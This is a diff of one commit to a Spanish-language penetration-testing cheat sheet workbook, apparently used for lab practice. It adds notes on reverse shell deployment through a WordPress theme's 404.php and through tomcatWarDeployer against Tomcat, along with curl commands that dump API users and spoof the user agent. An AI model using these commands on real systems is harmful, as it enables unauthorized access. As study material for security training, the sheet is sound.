

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Interceptadores & Web, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no cell formats; charts and pictures not drawn; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Interceptadores & Web)
+++ b/CheatSheet.xlsm (sheet Interceptadores & Web)
-V17: (empty)
+V17: /wp-content/themes/90s-retro/404.php
-W17: (empty)
+W17: Ruta para cargar reverse shell
-R18: (empty)
+R18: curl http://192.168.145.106/api/users | jq '.[]' -r > users.txt
-S18: (empty)
+S18: Para sacar todos los usuarios de un nodejs express quitando [] y ""
-R19: (empty)
+R19: curl -A "Googlebot" http://10.11.1.39/robots.txt
-S19: (empty)
+S19: Para cambiar el Usert-Agent al bot de busquedas de google
-T19: (empty)
+T19: https://phoenixnap.com/kb/curl-user-agent
-R23: …-H "User-Agent: Dirbuster "http;//10.10.10.10.8000/
+R23: …-H "User-Agent: Dirbuster" http://10.10.10.10.8000/
-V24: (empty)
+V24: python tomcatWarDeployer.py -U user -P password -H 10.10.10.10 -p 9999 IP_TomCat
-W24: (empty)
+W24: Para desplegar una shell reversa de forma automatica en TomCat
-X24: (empty)
+X24: Descargar de su Github
```
Also changed, not shown: 34 added rows, 5 removed rows, 63 edited cells and merged cells elsewhere in this sheet, sheet Explotacion & Post-Explotacion, sheet General, sheet Enumeracion & Escaneos, sheet Inyecciones, cell formats, charts or pictures.
